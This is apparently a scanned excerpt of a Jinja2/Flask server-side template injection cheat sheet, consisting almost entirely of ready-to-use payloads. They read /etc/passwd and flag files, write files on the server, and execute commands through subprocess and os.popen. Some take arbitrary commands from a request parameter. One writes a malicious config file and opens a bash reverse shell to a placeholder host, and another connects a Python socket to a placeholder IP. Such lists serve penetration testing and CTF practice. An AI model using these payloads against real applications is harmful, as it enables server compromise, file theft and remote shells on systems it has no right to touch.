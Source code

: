 ```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
```

### Write into remote file

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Remote Code Execution

Listen for connexion

```bash
nv -lnvp 8000
```

#### Exploit the SSTI by calling subprocess.Popen.
:warning: the number 396 will vary depending of the application.

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### Exploit the SSTI by calling Popen without guessing the offset

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Simply modification of payload to clean up output and facilitate command input (https://twitter.com/SecGus/status/1198976764351066113)
In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### Exploit the SSTI by writing an evil config file.

```python
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} 

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }} 
```
